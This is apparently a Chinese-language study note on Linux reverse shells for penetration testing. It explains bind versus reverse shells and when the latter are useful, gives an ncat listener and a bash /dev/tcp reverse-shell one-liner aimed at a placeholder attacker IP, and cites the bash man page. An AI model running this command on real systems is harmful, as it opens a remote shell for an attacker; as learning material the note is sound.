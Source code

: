 ```yaml
---
title: Linux 反弹shell实践
category: Sec
---
```


# Linux 反弹shell实践

## 0x00 前述

在很多渗透场景下我们都需要反弹shell。

这里的`shell`指的是靶机监听某端口，一旦有外部流量接入就分配一个shell；`反弹shell`则指攻击者的机器上监听某端口，靶机主动去连接这个端口并分配给攻击者一个shell。

`反弹shell`在以下两种环境中具有独特优势：

1. 靶机没有公网IP（或者说，没有能够直接被攻击者访问到的IP）
2. 靶机本身或所在网络的防火墙对出口流量不做限制或限制小

网络上已经有很多关于这方面的文章。本文为学习笔记。

## 0x01 反弹shell：bash

```bash
// Step1: Attacker
ncat -l -p 10000
// Step2: Victim
bash -i >& /dev/tcp/[ATTACKER-IP]/10000 0>&1
```

靶机截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-0.png)

攻击者截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-1.png)

注意上面的靶机只有一个内网地址`192.168.246.xxx`。

**原理**

参考[这篇文章](http://os.51cto.com/art/201709/550457.htm)。

`bash -i`是以交互方式打开一个`bash`；  

参考`man bash`的`REDIRECTION`部分：

关于`/dev/tcp/[ATTACKER-IP]/10000`：

```
/dev/tcp/host/port

If  host  is  a  valid  hostname or Internet address, 
    and port is an integer port number or service
    name, bash attempts to open the corresponding TCP socket.
```
